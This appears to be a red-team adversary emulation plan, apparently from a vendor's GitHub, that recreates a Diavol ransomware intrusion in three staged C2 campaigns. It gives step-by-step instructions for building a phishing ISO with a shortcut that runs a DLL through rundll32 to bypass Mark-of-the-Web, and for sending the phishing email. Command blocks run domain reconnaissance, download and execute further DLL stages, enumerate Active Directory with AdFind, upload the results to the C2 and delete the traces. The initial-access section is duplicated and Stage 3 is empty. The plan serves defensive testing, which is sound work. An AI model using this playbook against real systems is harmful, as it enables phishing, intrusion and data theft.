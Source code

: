 # Diavol Ransomware Adversary Emulation Plan

This threat is based on The DFIR Report post on December 13, 2021: https://thedfirreport.com/2021/12/13/diavol-ransomware/

This is a multi-stage threat that requires multiple SCYTHE campaigns for end-to-end execution. The initial access procedures leverage multiple defense evasion steps that would be wise to test in your enviornment.

## Automated Emulation with SCYTHE
### Diavol Stage 1
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Diavol
4. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage1
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 2 and Stage 3 before execution
10. Follow steps for preparing initial access

### Diavol Stage 2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/Diavol

### Diavol Stage 3
1. Create a new campaign `DiavolStage3` with HTTPS and the communication options from the CTI: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage3
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `uvvfvnnswte.dll`
6. Upload the `uvvfvnnswte.dll` to the VFS under VFS:/shared/Diavol

### Preparing Initial Access
1. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system. Note we are using the Folder2Iso project to create the ISO.
2. Put the SCYTHE DLL in the Folder2Iso of the working directory.
3. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
4. Open a Windows command prompt and cd to the working directory.
5. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it.
6. Zip the ISO and call it `new-documents-2005.zip`
7. Upload the zip file to Microsoft OneDrive and copy the link.
8. Send a phishing email with the link to the Microsoft OneDrive zip file. 
9. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

## Manual Emulation
### Diavol Stage 1
```
delay --time 900
loader --load run
run net group /domain
run net group /domain "Domain Admins"
run net group "Domain Computers" /domain
run net localgroup administrators
run net view /all
run nltest /domain_trusts /all_trusts
delay --time 6000
loader --load downloader
downloader --src "VFS:/shared/Diavol/tfpkuengdlu.dll" --dest "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll"
run rundll32.exe "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll",EnterDll
controller --shutdown
```

### Diavol Stage 2
```
loader --load run
run ipconfig /all
run net user USER /domain
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol"
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol\adfind"
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol\adfind\results"
loader --load downloader
downloader --src "VFS:/shared/Diavol/adf.bat" --dest "%USERPROFILE%\Desktop\Diavol\adfind\adf.bat"
downloader --src "https://www.joeware.net/downloads/files/AdFind.zip" --dest "%USERPROFILE%\Desktop\Diavol\adfind\AdFind.zip"
run cmd /c powershell -Command Expand-Archive %USERPROFILE%\Desktop\Diavol\adfind\AdFind.zip -DestinationPath %USERPROFILE%\Desktop\Diavol\adfind\
run cmd /c "start %USERPROFILE%\Desktop\Diavol\adfind\adf.bat"
delay --time 600
run powershell Compress-Archive "%USERPROFILE%\Desktop\Diavol\adfind\results\" "%USERPROFILE%\Desktop\Diavol\adfind\adf.zip
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\Diavol\adfind\adf.zip"
run cmd /c rmdir /Q /S "%USERPROFILE%\Desktop\Diavol\adfind"

downloader --src "VFS:/shared/Diavol/uvvfvnnswte.dll" --dest "%USERPROFILE%\AppData\Local\Temp\uvvfvnnswte.dll"
run rundll32.exe "%USERPROFILE%\AppData\Local\Temp\uvvfvnnswte.dll",EnterDll
controller --shutdown
```

### Diavol Stage 3

### adf.bat
```
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=person)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad-users.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "objectcategory=computer" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_computers.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=organizationalUnit)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_ou.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -sc trustdmp > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_trustdmp.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -subnets -f (objectCategory=subnet) > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_subnet.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=group)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_group.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -gcb -sc trustdmp > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_trustdmp2.txt
```

### Preparing Initial Access
1. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system. Note we are using the Folder2Iso project to create the ISO.
2. Put the SCYTHE DLL in the Folder2Iso of the working directory.
3. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
4. Open a Windows command prompt and cd to the working directory.
5. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it.
6. Zip the ISO and call it `new-documents-2005.zip`
7. Upload the zip file to Microsoft OneDrive and copy the link.
8. Send a phishing email with the link to the Microsoft OneDrive zip file. 
9. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.